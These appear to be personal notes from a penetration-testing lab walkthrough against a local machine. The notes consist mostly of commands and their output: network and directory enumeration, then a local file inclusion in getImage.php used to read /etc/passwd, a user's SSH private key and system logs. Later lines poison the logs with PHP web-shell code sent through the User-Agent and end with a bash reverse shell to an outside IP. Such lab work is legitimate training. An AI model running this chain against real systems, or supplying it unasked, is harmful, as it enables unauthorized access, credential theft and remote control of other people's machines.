

## init
```bash
 arp-scan -I wlo1 --localnet # 192.168.1.13
ping -c 1 192.168.1.13

whatweb http://192.168.1.13:8000
searchsploit litespeed

gobuster dir -k -u https://192.168.1.13:7080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
# -k skip certificate
# -t threads

# res
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.13:7080
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 301) [Size: 1260] [--> https://192.168.1.13:7080/docs/]
/view                 (Status: 301) [Size: 1260] [--> https://192.168.1.13:7080/view/]
/lib                  (Status: 301) [Size: 1260] [--> https://192.168.1.13:7080/lib/]
/res                  (Status: 301) [Size: 1260] [--> https://192.168.1.13:7080/res/]
Progress: 30441 / 220561 (13.80%)[ERROR] Get "https://192.168.1.13:7080/repair": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 63757 / 220561 (28.91%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 64473 / 220561 (29.23%)
===============================================================
Finished
===============================================================

gobuster dir -u http://192.168.1.13:8000 -x html,txt,php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash   

gobuster dir -u http://192.168.1.11 -x html,txt,php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash

<>
# Using Dirb
dirb http://192.168.1.11 /usr/share/wordlists/dirb/common.txt

http://192.168.1.11/cgi-data/getImage.php?file=/etc/passwd

curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/etc/passwd" | grep bash

curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'
# res
0050
0016
1F98
0050

for port in $(curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'); do echo "[+] Port: $port"; done
# res
[+] Port: 0050
[+] Port: 0016
[+] Port: 1F98
[+] Port: 0050

# ibase obase
for port in $(curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'); do echo "[+] Port: $(echo "obase=10; ibase=16; $port" | bc)"; done
#ans
[+] Port: 80
[+] Port: 22
[+] Port: 8088
[+] Port: 80

for port in $(curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 5 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'); do echo "[+] Port $port: $(echo "obase=10; ibase=16; $port" | bc)"; done | sort -n

# process
curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/proc/sched_debug"

# ssh
curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/home/durian/.ssh/id_rsa"

# apache2 logs
curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/var/log/apache2/access.log"


# ssh log
curl -s -X GET "http://192.168.1.5/cgi-data/getImage.php?file=/var/log/auth.log"

<>
# Opening burpsuite
http://192.168.1.5/cgi-data/getImage.php?file=/proc/536/cmdline

```


```bash
/proc/104 # to bufferoverflow

```


```bash
# changing the user agent
<?php system('whoami'); ?>
<?php system($GET['cmd']); ?>

```



```bash
/cgi-data/getImage.php?file=/proc/self/fd/6&cmd=pwd
http://192.168.1.5/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=bash -c "bash -i >&/dev/tcp/192.168.1.12/443 0>&1"

```